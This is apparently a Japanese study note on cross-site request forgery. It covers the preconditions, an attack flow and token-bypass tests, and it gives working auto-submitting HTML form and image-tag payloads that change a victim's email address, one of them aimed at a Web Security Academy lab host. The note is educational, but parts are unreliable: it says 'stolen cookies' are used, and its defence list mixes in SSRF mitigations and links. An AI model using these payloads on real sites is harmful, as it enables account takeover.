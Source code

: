# 脆弱性名: [Cross site Request Forgery (CSRF)]  

## 1️ 概要 / 定義
- クロスサイトリクエストフォージュリーは、攻撃者がユーザに意図しない操作を実行させることを可能にするウェブセキュリティの脆弱性。

---
## 2️ 攻撃の前提条件
- [関連するアクション]
	- 攻撃者がアプリケーション内で何らかのアクションを誘発する必要がある。
		- 特権での操作や自身のパスワード変更等
- [Cookieベースのセッション処理]
	- アクションの実行には1つ以上HTTPリクエスト発行が含まれアプリケーションはリクエストを送信したユーザを識別するために必要。
- [予測不可能なリクエストパラメータがないこと]
	- 攻撃者がすべてのパラメータの値を知っている必要がある。
		- CSRFにならない場合:これはパスワード変更であった場合、現在のパスワードを知らないとリクエストが処理されてないためそもそもCSRFの対象にはならないという話。
		- CSRFになる場合:知らないパラメータの値がない状態。
---
## 3️ 影響
- Webアプリでそのアカウントで許可されている操作はできてしまう。

---
## 4️ 何ができるか（攻撃成功時の具体例）
- 取得したユーザの権限によって変わる。

---
## 5️ 攻撃フロー（手順化）
1. [ステップ1：攻撃者がWebページを作成する。]
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
1. [ステップ2：ユーザに1で作成したページを踏ませる。]
2. [ステップ3：1で仕込んだメールアドレスに変更できていればOK]
3. [ステップ4 : 盗んだクッキーを使用してログインする。]
- **目的は「どうすれば成功するか」を他人に説明できるように書くこと**

---
## 6️ 検出方法（診断手法）
- 手動：
	- リクエストから CSRF トークンを削除するか、空白スペースを入れます。
	- POSTをGETに変更します。
	- CSRF トークンをランダムな値 (たとえば 1) に置き換えます。
	- CSRF トークンを同じ制約のランダム トークンに置き換えます。
	- HTML インジェクションを使用してトークンを抽出します。
	- 以前使用されたことのある CSRF トークンを使用します。
	- 正規表現をバイパスします。
	- リファラーヘッダーを削除します。
	- 手動で呼び出しを実行して CSRF を要求し、そのトークンをリクエストに使用します。
- 自動：
  - PoC作成をしてくれるツール
	  - https://github.com/0xInfection/CSRFPocGenerator.git
  - [どういう設定や条件で検出できるか]

---
## 7️ 判定基準
- [何をもって脆弱と判定するか]
- [ガイドライン（OWASP、CWEなど）や一般的な基準に照らして明文化]
- 例：認証なしで閲覧可能 / 特定操作が実行可能 / トークンがない 等
---
## 8️ 防御策 / 緩和策
- 技術的対策：
  - [ネットワーク層]
	  - リモートリソースアクセス機能を別々のネットワークに分割する。
	  - 「デフォルトで拒否」のFWポリシーで拒否または、ネットワークアクセス制御ルールを適用し、必須のイントラネットトラフィック以外はすべてブロック。
  - [アプリケーション]
	  - クライアントが提供するすべての入力をサニタイズして検証
	  - URLスキーマ、ポート、および宛先をホワイトリストで強制する。
	  - クライアントに生の応答を送信しない。
	  - HTTPリダイレクトを無効にする。
	  - DNS理バインディングやTOCTOU競合状態などの攻撃を回避するためにURLの一貫性に注意する。
- - [CSRFトークンの使用]
	- 機密性の高い操作を行うときには必ず実装するほうが安全
- [SameSite Cookieの使用]
	- SameSiteは、ほかのウェブサイトからのリクエストにウェブサイトのCoolieを含めるタイミングを決定するブラウザセキュリティのメカニズム。
	- SameSiteは3つのモードがある。
		- Strict:同一サイトのリクエスト以外はCookieを送らない。
		- Lax:通常は送らないがリンククリックやGetなどのナビゲーション時のみ送る。(POSTやAPIでは送らない。)
		- None:クロスサイトでも送る。ただしSecure属性必須(HTTPSのみ)
- [Refererベースの検証]
	- リクエストがアプリケーション自身のドメインから発信されたものかどうかを確認する。
- [OWASPなどの対策]
	- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
	- https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
---
## 9 Payload
```
▼Getの場合
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

▼Postの場合
<form method="POST" action="https://0a47002104cc99ee801e039900c40056.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="csrf2@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

---
## 【補足】理解すべき背景
- なぜこの脆弱性が成立するのか：
  - [仕様上、設計上、実装上、どの要素が原因か]
- よくある失敗事例：
  - [実際に企業や現場でありがちなミス]
- 関連する脆弱性・攻撃手法：
  - [他の脆弱性との関連性]